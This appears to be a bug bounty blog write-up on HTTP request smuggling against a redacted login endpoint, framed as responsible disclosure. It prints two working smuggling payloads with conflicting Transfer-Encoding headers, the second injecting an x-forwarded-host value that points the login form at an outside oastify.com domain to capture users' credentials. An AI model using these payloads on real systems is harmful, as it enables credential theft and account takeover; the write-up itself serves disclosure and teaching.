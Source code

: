 ```yaml
---
title: Stealing Login Credentails using HTTP Request Smuggling
author: Jineesh
date: 2023-08-15 14:10:00 +0800
categories: [Writeup,bugbounty]
tags: [bugbounty]
render_with_liquid: false
---
```


In this blog post, I will discuss a significant security vulnerability I discovered in a specific target. The vulnerability, called HTTP request smuggling, provided me with the ability to manipulate the application's behavior, potentially compromising user credentials. I responsibly reported this vulnerability to the application's development team, who took appropriate measures to address it. In this write-up, I will explain the nature of the vulnerability, its impact, and the steps taken for responsible disclosure.

## Description

The vulnerability I found in the target is an instance of HTTP request smuggling. It arises when an attacker can manipulate the application's interpretation of HTTP requests, leading to behaviors that differ from the intended ones. By exploiting this vulnerability, an attacker could gain unauthorized access to user credentials, potentially compromising their accounts.

### Confirmation of Vulnerability

To confirm the presence of the vulnerability, I crafted a malicious HTTP request using the following payload:

```

POST /ENDPOINT HTTP/1.1
Host: [HOST]
Cookie: █████████
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 91
Connection: keep-alive
Transfer-Encoding: chunked
Transfer-encoding: identity

2b
username=admin&password=admin&login=SIGN+IN
0

GET /robots.txt HTTP/1.1
X-Ignore: X
```

Instead of the expected response of "302," the application returned a "404" status code, indicating that the vulnerability was present.

![Screenshot 2023-05-16 at 12.07.05 PM(1).jpg](images/1.jpg)

### Exploiting the Vulnerability

Further investigation using param-miner extension revealed that the application accepts the **x-forwarded-for** header, which allowed me to manipulate the "Host" value in the response. With this information, I crafted a second request to redirect the base URL of the login form to a controlled domain, as demonstrated by the following payload:

```

POST /ENDPOINT HTTP/1.1
Host: [HOST]
Cookie: █████████
Content-Type: application/x-www-form-urlencoded
Content-Length: 421
Connection: keep-alive
Transfer-Encoding: chunked
Transfer-encoding: identity

2b
username=admin&password=admin&login=SIGN+IN
0

GET /ENDPOINT HTTP/1.1
x-forwarded-host: gbvun9lgwxse701bwnjfn68snjtah25r.oastify.com
X-Ignore: X
```

This manipulation changed the base URL of the login request form to a malicious domain, allowing an attacker to intercept user credentials.

![Screenshot 2023-05-22 at 9.27.15 PM.png](images/2.png)

### Potential Impact

The impact of this vulnerability is severe. When a legitimate user logs in to the affected application, their credentials are unknowingly sent to the malicious domain controlled by the attacker. This could lead to unauthorized access, account takeover, or further compromise of sensitive data.
